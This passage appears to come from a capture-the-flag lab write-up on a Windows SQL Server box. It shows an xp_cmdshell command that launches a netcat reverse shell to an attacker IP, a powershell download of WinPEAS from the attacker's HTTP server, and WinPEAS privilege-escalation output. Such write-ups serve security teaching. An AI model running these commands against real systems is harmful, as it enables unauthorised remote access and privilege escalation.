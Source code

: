 ```
output                                                                             

--------------------------------------------------------------------------------   

NULL
```
Before starting the reverse shell we start the local listener `sudo nc -lvnp 443`
Once the listener is established we launch the connection `xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.14.169 443"`

Now with the reverse shell we can find the user flag in the user desktop

### Privilege escalation
One common way to search possible privilege escalation ways is the use of the automated tools LinPeas for Linux based systems and WinPeas for windows based systems, so we download WinPeas, to upload we can repeat the same steps done before running in local `sudo python3 -m http.server 80` and in the server `powershell -c wget http://10.10.14.169/winPEASx64.exe -outfile winPEASx64.exe`
After executing the tool the following output is shown
```
�����������������������������������͹ System Information �������������������������������������

����������͹ Basic System Information
� Check if the Windows versions is vulnerable to some known exploit https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#kernel-exploits
    Hostname: Archetype
    ProductName: Windows Server 2019 Standard
    EditionID: ServerStandard
    ReleaseId: 1809
    BuildBranch: rs5_release
    CurrentMajorVersionNumber: 10
    CurrentVersion: 6.3
    Architecture: AMD64
    ProcessorCount: 2
    SystemLang: en-US
    KeyboardLang: English (United States)
    TimeZone: (UTC-08:00) Pacific Time (US & Canada)
    IsVirtualMachine: True
    Current Time: 11/21/2023 8:17:53 AM
    HighIntegrity: False
    PartOfDomain: False
    Hotfixes: KB5004335, KB5003711, KB5004244, 
    
����������͹ Current Token privileges
� Check if you can escalate privilege using some enabled token https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#token-manipulation
    SeAssignPrimaryTokenPrivilege: DISABLED
    SeIncreaseQuotaPrivilege: DISABLED
    SeChangeNotifyPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
    SeImpersonatePrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
    SeCreateGlobalPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
    SeIncreaseWorkingSetPrivilege: DISABLED

����������͹ Clipboard text

����������͹ Logged users
    NT SERVICE\SQLTELEMETRY
    ARCHETYPE\sql_svc

����������͹ Ever logged users
    NT SERVICE\SQLTELEMETRY
    ARCHETYPE\Administrator
    ARCHETYPE\sql_svc

```